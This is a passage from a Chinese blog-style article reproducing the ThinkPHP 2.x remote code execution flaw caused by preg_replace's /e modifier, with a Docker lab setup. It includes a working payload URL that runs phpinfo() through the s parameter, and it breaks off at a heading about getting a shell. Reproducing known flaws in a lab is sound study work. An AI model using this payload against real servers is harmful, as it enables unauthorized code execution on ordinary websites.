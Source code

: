 #  漏洞复现 | ThinkPHP全版本漏洞复现

原创 Enomothem  [ Eonian Sharp ](javascript:void\(0\);)

**Eonian Sharp** ![]()

微信号 Eonian_sharp

功能介绍 Eonian Sharp | 永恒之锋，专注APT框架、渗透测试攻击与防御的研究与开发，没有永恒的安全，但有永恒的正义之锋击破黑暗的不速之客。

____

___发表于_

收录于合集

#漏洞复现 5 个

#信息安全 13 个

#渗透测试 10 个

# ThinkPHP

## TP - 2.x-RCE

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

    
    
    $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

    
    
    docker compose up -d

![]()

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

漏洞复现

直接访问`http://your-
ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：

![]()

## TP - 2.x-RCE x Getshell
